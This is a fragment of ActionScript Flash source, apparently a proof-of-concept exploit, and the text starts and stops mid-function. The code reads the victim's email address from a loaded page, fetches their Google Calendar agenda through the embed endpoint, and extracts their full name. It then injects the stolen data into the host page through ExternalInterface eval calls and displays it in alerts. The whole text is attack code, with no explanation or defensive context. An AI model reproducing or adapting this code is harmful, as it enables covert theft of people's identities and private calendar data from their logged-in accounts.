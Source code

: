 ```
            dispatcher.addEventListener(Event.COMPLETE, completeHandlerCalendar);

        }

        private
        function getAgenda() : void {
            var url: String = "https://www.google.com/calendar/htmlembed?skipwarning=true&eopt=3&mode=AGENDA&src=" + email;
            var loader: URLLoader = new URLLoader();
            configureListenersAgenda(loader);
            var request: URLRequest = new URLRequest(url);

            try {
                loader.load(request);

            } catch(error: Error) {
                ExternalInterface.call("alert", "Unable to load requested document");

            }

        }

        private
        function configureListenersAgenda(dispatcher: IEventDispatcher) : void {
            dispatcher.addEventListener(Event.COMPLETE, completeHandlerAgenda);

        }

        private
        function completeHandler(event: Event) : void {
            var loader: URLLoader = URLLoader(event.target);
            var s: String = loader.data;
            var pattern: RegExp = /[a-z0-9._-]+@[a-z0-9._-]+\.[a-z]+/i;
            var results: Array = s.match(pattern);

            if (results.length > 0) {
                email = results[0];
                ExternalInterface.call("eval", "alert('Email address: " + email + "')");
                pingCalendar();

            }

        }

        private
        function completeHandlerCalendar(event: Event) : void {
            getAgenda();

        }

        private
        function completeHandlerAgenda(event: Event) : void {
            var loader: URLLoader = URLLoader(event.target);
            var res: String = escape(loader.data);
            ExternalInterface.call("eval", "document.getElementById('x').value='" + res + "';document.getElementById('x').value=unescape(document.getElementById('x').value)");
            var pattern: RegExp = /title>[a-z0-9]+\s[a-z0-9]+<\/title/i;
            var results: Array = unescape(res).match(pattern);

            if (results.length > 0) {
                var name: String = results[0];
                name = (name.substring(name.indexOf(">") + 1)).split("<")[0];
                ExternalInterface.call("eval", "alert('Name and surname:" + name + "')");
```